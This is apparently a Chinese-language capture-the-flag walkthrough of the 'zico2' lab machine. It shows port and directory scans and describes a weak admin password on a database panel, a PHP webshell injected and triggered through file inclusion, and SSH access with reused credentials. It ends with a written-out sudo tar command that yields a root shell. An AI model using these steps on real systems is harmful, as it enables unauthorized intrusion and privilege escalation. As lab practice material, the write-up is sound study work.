

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/zico2]
└─$ sudo nmap -sT -sCV -O -p22,80,111,33780 192.168.10.28
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open   http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open   rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33780/tcp   status
|   100024  1          34012/udp   status
|   100024  1          51469/udp6  status
|_  100024  1          53347/tcp6  status
33780/tcp open   status  1 (RPC #100024)
MAC Address: 00:0C:29:17:12:B2 (VMware)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5, Linux 2.6.38 - 3.0
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web渗透

访问web页面

找到一个lfi

### 目录扫描
```bash
┌──(kali㉿kali)-[~/workspace/zico2]
└─$ dirb http://192.168.10.28/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May 27 04:20:16 2024
URL_BASE: http://192.168.10.28/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.10.28/ ----
+ http://192.168.10.28/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: http://192.168.10.28/css/
==> DIRECTORY: http://192.168.10.28/dbadmin/
==> DIRECTORY: http://192.168.10.28/img/
+ http://192.168.10.28/index (CODE:200|SIZE:7970)
+ http://192.168.10.28/index.html (CODE:200|SIZE:7970)
==> DIRECTORY: http://192.168.10.28/js/
+ http://192.168.10.28/LICENSE (CODE:200|SIZE:1094)
+ http://192.168.10.28/package (CODE:200|SIZE:789)
+ http://192.168.10.28/server-status (CODE:403|SIZE:294)
+ http://192.168.10.28/tools (CODE:200|SIZE:8355)
==> DIRECTORY: http://192.168.10.28/vendor/
+ http://192.168.10.28/view (CODE:200|SIZE:0)

---- Entering directory: http://192.168.10.28/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.28/dbadmin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.28/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.28/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.10.28/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon May 27 04:20:22 2024
DOWNLOADED: 4612 - FOUND: 8
```
直接访问dbadmin
### 弱口令
密码admin到后台管理界面

### 文件包含
在数据库管理界面插入php一句话


利用之前的lfi发现php语句解析
写入一句话蚁剑连接


## 提权
翻找文件发现wp-config


```bash
┌──(kali㉿kali)-[~/workspace/zico2]
└─$ ssh zico@192.168.10.28
The authenticity of host '192.168.10.28 (192.168.10.28)' can't be established.
ECDSA key fingerprint is SHA256:+zgKqxyYlTBxVO0xtTVGBokreS9Zr71wQGvnG/k2igw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.10.28' (ECDSA) to the list of known hosts.
zico@192.168.10.28's password:

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

zico@zico:~$ whoami
zico
```
直接能ssh连接

```bash
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
zico@zico:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls /root
flag.txt
# cat /root/flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```
没什么好说的，五分钟都不用